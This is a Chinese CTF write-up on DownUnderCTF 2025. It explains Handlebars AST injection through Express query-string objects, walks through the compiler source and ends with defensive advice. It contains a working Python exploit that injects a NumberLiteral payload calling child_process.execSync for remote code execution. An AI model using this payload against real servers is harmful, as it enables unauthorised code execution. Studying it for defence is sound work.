

# 从DownUnderCTF 2025探讨Handlebars的ast语法树注入问题-先知社区

> **来源**: https://xz.aliyun.com/news/18621  
> **文章ID**: 18621

---

## **前言**

先来看一道题（DownUnderCTF 2025），题目只给了一个dockerfile

```
FROM alpine:latest AS flag-builder

WORKDIR /build
RUN apk add gcc musl-dev
RUN cat <<EOF > getflag.c
#include <stdio.h>
int main() {
    printf("DUCTF{test_flag}
");
}
EOF
RUN gcc -static getflag.c -o getflag

FROM node:22-alpine

WORKDIR /app
RUN npm init -y && npm install express@4 handlebars

RUN cat <<EOF > app.js
const express = require("express");
const Handlebars = require("handlebars");
const app = express();

app.get('/', (req, res) => {
    res.send(Handlebars.compile(req.query.x)({}));
});

app.listen(8000, () => console.log('App listening'));
EOF

COPY --from=flag-builder /build/getflag /getflag
RUN chmod 111 /getflag

EXPOSE 8000

USER node
CMD node app.js
```

可以看到handlebars版本是最新的，不存在ssti漏洞，这题实际上也不是打传统ssti

app.js也是十分简单，看起来人畜无害的样子

```
const express = require("express");
const Handlebars = require("handlebars");
const app = express();

app.get('/', (req, res) => {
    res.send(Handlebars.compile(req.query.x)({}));
});

app.listen(8000, () => console.log('App listening'));
```

## **找思路**

既然传统ssti打不了，只能去看看源码了

看Handlebars.compile的具体实现

handlebars/lin/handlebars/compiler/compiler.js

```
export function compile(input, options = {}, env) {
  if (
    input == null ||
    (typeof input !== 'string' && input.type !== 'Program')
  ) {
    throw new Exception(
      'You must pass a string or Handlebars AST to Handlebars.compile. You passed ' +
      input
    );
    //省略
  }
```

这里complie不仅接受string，还接受type为Program的对象

看一下实际解析过程

```
function compileInput() {
  let ast = env.parse(input, options),
    environment = new env.Compiler().compile(ast, options),
    templateSpec = new env.JavaScriptCompiler().compile(
      environment,
      options,
      undefined,
      true
    );
  return env.template(templateSpec);
}
```

可以看到ast语法树由env.parse生成，那么如果这里的input.type为Program会怎么处理呢

env.parse在handlebars/lin/handlebars/compiler/base.js中有定义

```
export function parseWithoutProcessing(input, options) {
  // Just return if an already-compiled AST was passed in.
  if (input.type === 'Program') {
    return input; //重点在这里
  }
  //省略
  let ast = parser.parse(input);
  return ast;
}

export function parse(input, options) {
  let ast = parseWithoutProcessing(input, options);
  let strip = new WhitespaceControl(options);

  return strip.accept(ast);
}
```

可以看到直接返回了整个对象，没做任何处理

然后compileInput()会将其编译最后交给env.template

梳理一下，如果传入的是一个恶意ast对象，那么理论上就能执行恶意代码了

至于传入对象，利用express对于req.query.x的解析，会将x[params]=xxx这种语法解析成对象的特性即可

## **构建恶意ast树**

问题来了，如何构建一个恶意ast对象？

那么就要看compile解析ast树具体实现了

Compiler.prototype中定义了对不同节点的处理方法，例如

```
MustacheStatement: function MustacheStatement(mustache) {
  this.SubExpression(mustache);

  if (mustache.escaped && !this.options.noEscape) {
    this.opcode('appendEscaped');
  } else {
    this.opcode('append');
  }
}
```

在 Handlebars 模板中，{{...}} 语法被称为 "Mustache" 表达式。它用于插入变量、调用 helper 或进行其他简单的操作

这个表达式会被处理为MustacheStatement包裹的节点

测试一下，运行如下代码

```
const Handlebars = require("handlebars");
const input = "{{2}}";//但是其实这样写是错的，没有helper处理最终不会渲染出东西
const ast = Handlebars.parse(input);
console.log(JSON.stringify(ast));
```

输出为

```
{
  "type": "Program",
  "body": [{
    "type": "MustacheStatement",
    "path": {
      "type": "NumberLiteral",
      "value": 2,
      "original": 2,
      "loc": {"start": {"line":1,"column":2}, "end": {"line":1,"column":3}}
    },
    "params": [],
    "escaped": true,
    "strip": {"open":false,"close":false},
    "loc": {"start": {"line":1,"column":0}, "end": {"line":1,"column":5}}
  }],
  "strip": {},
  "loc": {"start": {"line":1,"column":0}, "end": {"line":1,"column":5}}
}
```

可以看到MustacheStatement节点下有一个类型为NumberLiteral的节点，其中value为2，但是注意这里的NumberLiteral的节点在path里面

如果注册了helper并且调用，生成的ast树会是怎么样的呢

```
const Handlebars = require("handlebars");
Handlebars.registerHelper('multiply', function (a, b) {
  return a * b;
});
const input = "{{multiply 2 2}}";
const ast = Handlebars.parse(input);
console.log(JSON.stringify(ast));
```

运行结果如下

```
{
  "type": "Program",
  "body": [{
    "type": "MustacheStatement",
    "path": {
      "type": "PathExpression",
      "data": false,
      "depth": 0,
      "parts": ["multiply"],
      "original": "multiply",
      "loc": {"start": {"line":1,"column":2}, "end": {"line":1,"column":10}}
    },
    "params": [
      {"type":"NumberLiteral","value":2,"original":2,"loc":{"start":{"line":1,"column":11},"end":{"line":1,"column":12}}},
      {"type":"NumberLiteral","value":2,"original":2,"loc":{"start":{"line":1,"column":13},"end":{"line":1,"column":14}}}
    ],
    "escaped": true,
    "strip": {"open":false,"close":false},
    "loc": {"start": {"line":1,"column":0}, "end": {"line":1,"column":16}}
  }],
  "strip": {},
  "loc": {"start": {"line":1,"column":0}, "end": {"line":1,"column":16}}
}
```

可以看到这时候同样是NumberLiteral，却在params里面

可以推断出在params里面的意味着这是一个helper调用

那么看看params具体是处理的

```
helperSexpr: function helperSexpr(sexpr, program, inverse) {
  var params = this.setupFullMustacheParams(sexpr, program, inverse),
    path = sexpr.path,
    name = path.parts[0];
  //省略
}
```

这里调用了setupFullMustacheParams

```
setupFullMustacheParams: function(sexpr, program, inverse, omitEmpty) {
  let params = sexpr.params;
  this.pushParams(params);
  //省略
  return params;
}
```

pushParams会将参数节点 (val) **再次传递给 this.accept() 方法**

```
pushParams: function(params) {
  for (let i = 0, l = params.length; i < l; i++) {
    this.pushParam(params[i]);
  }
},
pushParam: function(val) {
  //省略大部分代码
  //这里无论怎么处理，一定会进入this.accept(val);
  this.accept(val);
}
```

而accept 方法根据传入节点的 type 属性，调用 Compiler 实例上对应的方法

```
accept: function accept(node) {
  /* istanbul ignore next: Sanity code */
  if (!this[node.type]) {
    throw new _exception2['default']('Unknown type: ' + node.type, node);
  }

  this.sourceNode.unshift(node);
  var ret = this[node.type](node);
  this.sourceNode.shift();
  return ret;
}
```

那么看看NumberLiteral的处理

```
NumberLiteral: function(number) {
  this.opcode('pushLiteral', number.value);
},
```

这里没做任何处理，直接丢给了opcode

```
opcode: function opcode(name) {
  this.opcodes.push({
    opcode: name,
    args: slice.call(arguments, 1),
    loc: this.sourceNode[0].loc
  });
},
```

opcode将把value 字段中提供的**整个 JavaScript 函数字符串**作为字面量（literal value）添加到生成的操作码中

至于操作码的处理要去看JavaScriptCompiler 的实现，这里略过，因为我们可以直接手动修改ast树来看看效果（其实是累了想偷懒，但基本可以猜测内容会被拼接生成出js代码并运行

随便从上面的输出中找一个照着改一改

例如

```
{
  "type": "Program",
  "body": [{
    "type": "MustacheStatement",
    "path": 0,
    "params": [{
      "type": "NumberLiteral",
      "value": "function () {console.log('hack')}()"
    }],
    "escaped": true,
    "strip": {"open":false,"close":false},
    "loc": {
      "start": {"line":1,"column":0},
      "end": {"line":1,"column":5}
    }
  }],
  "strip": {},
  "loc": {
    "start": {"line":1,"column":0},
    "end": {"line":1,"column":5}
  }
}
```

重点是

```
"params": [{
  "type": "NumberLiteral",
  "value": "function () {console.log('hack')}()"
}]
```

然后将其传入到Handlebars.compile(x)({});看看效果



可以看到虽然报错了，但是先运行了我们的恶意代码

## **解决**

至此，这道题基本就结束了

测试一下，ast树可以最大程度化简成这样

```
const Handlebars = require("handlebars");
let x = {
  "type": "Program",
  "body": [
    {
      "type": "MustacheStatement",
      "path": 0,
      "params": [
        {
          "type": "NumberLiteral",
          "value": "function () {console.log('hack')}()",
        }
      ],
      "loc": {"start":0, "end": 0},
    }
  ]
}
Handlebars.compile(x)({});
```

那么这道题的解决方案就是

```
import requests

TARGET = "http://localhost:8000/"

print(requests.get(TARGET, params={
    "x[type]": "Program",
    "x[body][0][type]": "MustacheStatement",
    "x[body][0][path]": "0",
    "x[body][0][loc][start]": "0",
    "x[body][0][loc][end]": "0",
    "x[body][0][params][0][type]": "NumberLiteral",
    "x[body][0][params][0][value]": "function () {throw new Error(process.mainModule.require('child_process').execSync('/getflag').toString())}()"
}).text)
```

## 防御方法

对于HandleBars来说，解析AST树是设计好的功能

而这道题之所以会造成AST树注入，主要原因在于题目`req.query.x`这样的写法，会导致传入的参数被认定为是一个对象

想要防御，可以在传入`Handlebars.compile`之前，先判断`req.query.x`的类型，避免用户传入一个对象

```
    if (typeof req.query.x !== 'string') {
        return res.status(400).send('Invalid parameter type: x must be a string');
    }
```

当然，最好也不要直接使用Handlebars.compile，至少最好不要用户可控

提前准备好模板并编译，最后再用template渲染才是安全的做法

```
const Handlebars = require('handlebars');
const source = "<p>Hello, {{x}}!</p>";
const template = Handlebars.compile(source);
const context = { x: req.query.x }; 
const result = template(context);

console.log(result);
```
